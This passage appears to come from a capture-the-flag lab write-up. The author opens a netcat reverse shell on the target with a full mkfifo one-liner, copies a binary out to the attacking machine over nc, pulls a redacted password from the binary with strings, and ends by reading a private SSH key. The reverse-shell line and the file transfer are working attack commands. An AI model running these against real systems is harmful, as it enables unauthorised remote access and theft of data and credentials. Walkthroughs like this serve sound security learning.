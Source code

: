 We quickly find a binary but we can't run it via this shell service so we try and send ourselves a reverse shell with the follwing
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```

We get a reverse shell and are able to run the binary
```
# cd /home/catlover
# ls -la
total 28
drwxr-xr-x 2 0 0  4096 Apr  3 01:34 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
# ./runme
Please enter yout password: test
Access Denied
```

We need a password so we are going to have to send the binary to our local machine to analyze we have limited options on this target but we do have nc so we can use it as follows to send it over

On Attacking Machine
```
nc -nlvp <port> > runme
```

On Target Machine
```
nc <attacking ip> <attacking port> < runme
```

Once the binary is on our machine we can run strings on it and find the following section of interest
```
u+UH
ATSH
[A\]
[]A\A]A^A_
<redacted>
Please enter yout password:
Welcome, catlover! SSH key transfer queued!
touch /tmp/gibmethesshkey
Access Denied
:*3$"
zPLR
GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0

```

We go ahead and run the binary again with the password we found and after a short delay see the find the following
```
# ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jun 23 23:32 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jun 23 23:32 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
# cat id_rsa
<redacted ssh key>
```
